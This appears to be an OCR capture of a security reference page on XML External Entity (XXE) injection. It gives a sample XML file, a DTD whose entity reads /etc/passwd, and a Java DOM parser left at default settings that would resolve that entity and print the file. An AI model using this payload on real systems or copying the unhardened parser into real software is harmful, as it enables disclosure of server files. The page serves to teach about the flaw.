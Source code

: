 **Sample XML**

<!DOCTYPE contacts SYSTEM "contacts.dtd">
<contacts>
` `<contact>
`  `<firstname>`John`</firstname>` `
`  `<lastname>**`&xxe;`**</lastname>
` `</contact>` `
</contacts>

**Sample DTD**

<!ELEMENT contacts (contact*)>
<!ELEMENT contact (firstname,lastname)>
<!ELEMENT firstname (#PCDATA)>
<!ELEMENT lastname ANY>
<!ENTITY xxe SYSTEM "'''/etc/passwd'''">
#### XXE using DOM

`import java.io.IOException;`
`import javax.xml.parsers.DocumentBuilder;`
`import javax.xml.parsers.DocumentBuilderFactory;`
`import javax.xml.parsers.ParserConfigurationException;`
`import org.xml.sax.InputSource;`
`import org.w3c.dom.Document;`
`import org.w3c.dom.Element;`
`import org.w3c.dom.Node;`
`import org.w3c.dom.NodeList;`

`public class parseDocument {`
` public static void main(String[] args) {`
`  try {`
`   DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();`
`   DocumentBuilder builder = factory.newDocumentBuilder();`
`   Document doc = builder.parse(new InputSource("contacts.xml"));`
`   NodeList nodeLst = doc.getElementsByTagName("contact");`
`   for (int s = 0; s < nodeLst.getLength(); s++) {`
`     Node fstNode = nodeLst.item(s);`
`     if (fstNode.getNodeType() == Node.ELEMENT_NODE) {`
`       Element fstElmnt = (Element) fstNode;`
`       NodeList fstNmElmntLst = fstElmnt.getElementsByTagName("firstname");`
`       Element fstNmElmnt = (Element) fstNmElmntLst.item(0);`
`       NodeList fstNm = fstNmElmnt.getChildNodes();`
`       System.out.println("First Name: "  + ((Node) fstNm.item(0)).getNodeValue());`
`       NodeList lstNmElmntLst = fstElmnt.getElementsByTagName("lastname");`
`       Element lstNmElmnt = (Element) lstNmElmntLst.item(0);`
`       NodeList lstNm = lstNmElmnt.getChildNodes();`
`       System.out.println("Last Name: " + ((Node) lstNm.item(0)).getNodeValue());`
`     }`
`    }`
`  } catch (Exception e) {`
`    e.printStackTrace();`
`  }`
` }`
`}`
